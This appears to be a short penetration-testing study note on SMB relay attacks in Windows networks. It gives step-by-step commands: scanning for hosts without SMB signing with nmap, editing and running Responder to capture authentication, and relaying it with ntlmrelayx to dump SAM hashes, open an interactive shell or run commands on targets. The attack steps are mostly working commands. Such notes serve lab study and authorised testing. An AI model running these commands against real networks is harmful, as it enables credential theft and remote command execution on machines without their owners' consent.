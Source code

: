 # SMB Relay Attacks Overview
> 01.08.2024
---

## What is SMB Relay?
Instead of cracking hashes gathered with Responder. We can relay those hashes to specific machines and potentially gain access.

**Requirements for SMB Relay:**
- SMB signing must be disabled or not enforced on the target.
- Relayed user credentials must be admin on machines.
- Cannot relay to self.

## Identify Host Without SMB Signing
**With Nmap:**
```bash
nmap --script=smb2-security-mode.nse -p445 <ip/CIDR>

nmap --script=smb2-security-mode.nse -p445 10.0.2.25

...
Message signing enabled but not required
...
```

## SMB Relay
**Step 1: Edit Responder config:**

```bash
sudo subl /etc/responder/Responder.conf

Responder Core]

; Servers to start
SQL = On
SMB = Off *
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = Off *
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
MQTT = On
```

**Step 2: Run Responder:**
```bash
sudo responder -I eth0 -dw
```

**Step 3: Set up relay:**
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

**Step 4: Occur an event:**
For example trying to access the target machines ip in explorer: `\\attackerip`

**Step 5: Win:**
Dumps the SAM hashes.

*Other Wins:*
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
This will try to get a interactive shell!

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```
A basic command execution on the target machine.
